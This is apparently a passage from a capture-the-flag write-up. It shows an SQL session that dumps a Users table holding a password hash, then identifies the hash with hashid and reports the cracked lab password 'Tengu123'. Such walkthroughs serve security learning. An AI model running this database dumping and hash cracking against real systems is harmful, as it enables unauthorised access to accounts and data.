     tempdb   

    model    

    msdb     

    Demo     

    Dev      

    SQL (nodered_connector  nodered_connector@Dev)> USE Demo;
    ENVCHANGE(DATABASE): Old Value: Dev, New Value: Demo
    INFO(SQL): Line 1: Changed database context to 'Demo'.
    SQL (nodered_connector  nodered_connector@Demo)> SELECT name FROM sys.tables;
    name    
    -----   
    Users   

    SQL (nodered_connector  nodered_connector@Demo)> SELECT * FROM Users;
    ID   Username          Password                                                              
    ----   ---------------   -------------------------------------------------------------------   
    NULL   b't2_m.winters'   b'af9cfa9b70e5e90984203087e5a5219945a599abf31dd4bb2a11dc20678ea147' 

btw there is nothing at DEV

    SQL (nodered_connector  nodered_connector@Demo)> USE Dev;
    ENVCHANGE(DATABASE): Old Value: Demo, New Value: Dev
    INFO(SQL): Line 1: Changed database context to 'Dev'.
    SQL (nodered_connector  nodered_connector@Dev)> SELECT name FROM sys.tables;
    name   
    ----   
    Task   

    SQL (nodered_connector  nodered_connector@Dev)> SELECT * FROM Task;
    Last_Backup   Success   
    -----------   -------   
    b'Today'      b'True'

letsc check hashid

    ➜  images hashid af9cfa9b70e5e90984203087e5a5219945a599abf31dd4bb2a11dc20678ea147
    Analyzing 'af9cfa9b70e5e90984203087e5a5219945a599abf31dd4bb2a11dc20678ea147'
    [+] Snefru-256 
    [+] SHA-256 
    [+] RIPEMD-256 
    [+] Haval-256 
    [+] GOST R 34.11-94 
    [+] GOST CryptoPro S-Box 
    [+] SHA3-256 
    [+] Skein-256 
    [+] Skein-512(256) 

i think it can crackable if exist at crackstation

we got new creds Tengu123

![alt text](<../assets/images/4 (3).png>)
